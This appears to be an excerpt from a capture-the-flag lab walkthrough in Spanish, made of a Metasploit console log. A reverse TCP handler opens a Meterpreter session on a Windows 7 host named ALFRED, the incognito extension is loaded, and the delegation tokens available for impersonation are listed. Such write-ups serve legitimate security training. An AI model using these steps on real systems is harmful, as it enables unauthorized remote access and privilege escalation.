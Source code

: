 msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.143.22:4444 
[*] Sending stage (175686 bytes) to 10.10.60.152
[*] Meterpreter session 1 opened (10.10.143.22:4444 -> 10.10.60.152:49204) at 2024-01-22 01:51:49 +0000

meterpreter > 




CARGAMOS EL MODULO O EXTENSION DE METERPRETER INCOGNITO CON LOAD; PARA PODER VER LOS TOKENS DISPONIBLES Y MAS:







meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > sysinfo
Computer        : ALFRED
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > list_tokens -g 
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\sppsvc
NT SERVICE\swprv
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms